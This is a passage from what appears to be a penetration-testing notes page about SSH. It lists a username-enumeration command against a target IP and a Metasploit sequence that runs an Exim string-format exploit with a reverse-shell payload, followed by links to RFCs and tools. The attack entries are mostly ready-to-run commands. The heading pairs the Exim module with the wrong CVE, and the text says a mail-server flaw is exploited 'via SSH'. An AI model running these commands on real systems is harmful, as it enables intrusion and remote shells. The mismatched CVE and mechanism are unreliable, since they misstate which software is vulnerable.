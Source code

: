 \


*   **Tool:** \[\[ssh\_enum]]

    ```bash
    python3 ssh_enum.py <target_ip> -p 22
    ```
* **Description:** An enumeration vulnerability in OpenSSH that allows attackers to check if a username is valid on the server.

### CVE-2016-10033

*   **Tool:** \[\[Metasploit]]

    ```bash
    use exploit/unix/smtp/exim4_string_format
    set RHOSTS <target_ip>
    set USERNAME <username>
    set PAYLOAD cmd/unix/reverse
    run
    ```
* **Description:** Exploits a vulnerability in Exim (a popular mail transfer agent) when running as root to execute arbitrary commands via SSH.

## Resources

| **Website**            | **URL**                                              |
| ---------------------- | ---------------------------------------------------- |
| RFC 4251               | https://tools.ietf.org/html/rfc4251                  |
| RFC 4252               | https://tools.ietf.org/html/rfc4252                  |
| RFC 4253               | https://tools.ietf.org/html/rfc4253                  |
| RFC 4254               | https://tools.ietf.org/html/rfc4254                  |
| OpenSSH Manual         | https://man.openbsd.org/ssh                          |
| PuTTY Documentation    | https://www.chiark.greenend.org.uk/\~sgtatham/putty/ |
| Metasploit Framework   | https://www.metasploit.com/                          |
| Hydra Documentation    | https://github.com/vanhauser-thc/thc-hydra           |
| Wireshark SSH Analysis | https://wiki.wireshark.org/SSH                       |
| SSH Audit Tool         | https://github.com/arthepsy/ssh-audit                |

